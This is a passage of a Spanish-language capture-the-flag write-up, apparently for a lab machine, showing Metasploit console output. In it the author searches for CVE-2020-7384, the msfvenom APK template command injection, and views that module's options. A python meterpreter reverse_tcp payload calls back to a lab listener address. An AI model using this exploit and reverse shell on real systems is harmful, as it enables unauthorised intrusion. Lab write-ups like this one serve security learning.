```sh
  author           :  Modules written by this author
  arch             :  Modules affecting this architecture
  bid              :  Modules with a matching Bugtraq ID
  cve              :  Modules with a matching CVE ID
  edb              :  Modules with a matching Exploit-DB ID
 ... SNIP ...

[msf](Jobs:0 Agents:0) >> search cve:2020-7384

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```

Es tipo **exploit** por la ruta que señala. Si funciona quizás estemos dentro de la máquina objetivo.

```sh
[msf](Jobs:0 Agents:0) exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) >> show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```
